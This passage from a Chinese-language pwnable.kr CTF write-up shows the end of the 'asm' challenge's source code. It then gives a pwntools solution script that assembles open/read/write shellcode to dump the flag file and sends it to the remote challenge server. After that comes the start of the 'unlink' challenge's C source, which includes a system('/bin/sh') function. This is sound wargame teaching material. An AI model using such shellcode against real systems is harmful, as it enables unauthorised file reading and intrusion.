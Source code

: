           alarm(10);
          chroot("/home/asm_pwn");        // you are in chroot jail. so you can't use symlink in /tmp
          sandbox();
          ((void (*)(void))sh)();
          return 0;
  }

  ```
* 题解：使用pwntool构造汇编语言的shellcode
  ```python
  from pwn import * 
  context.arch='amd64'
  flagname='this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
  shellcode=''
  shellcode+=shellcraft.pushstr(flagname)  #通过push将flag文件放入到栈里面
  shellcode += shellcraft.open('rsp',0,0)  #open打开该文件
  shellcode += shellcraft.read('rax','rsp',0x80)  #读取0x80个字节到rsp中
  shellcode += shellcraft.write(1,'rsp',0x80)  #1代表stdout，从rsp开始读取0x80个字节

  r = remote('pwnable.kr',9026)
  r.sendline(asm(shellcode))
  print(r.recvall()) # Welcome to shellcoding practice challenge.

  ```

### 18 unlink
* ```c++
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  typedef struct tagOBJ{
          struct tagOBJ* fd;
          struct tagOBJ* bk;
          char buf[8];
  }OBJ;

  void shell(){
          system("/bin/sh");
  }

  void unlink(OBJ* P){
          OBJ* BK;
          OBJ* FD;
          BK=P->bk;
          FD=P->fd;
          FD->bk=BK;
          BK->fd=FD;
  }
  int main(int argc, char* argv[]){
          malloc(1024);
          OBJ* A = (OBJ*)malloc(sizeof(OBJ));
          OBJ* B = (OBJ*)malloc(sizeof(OBJ));
          OBJ* C = (OBJ*)malloc(sizeof(OBJ));
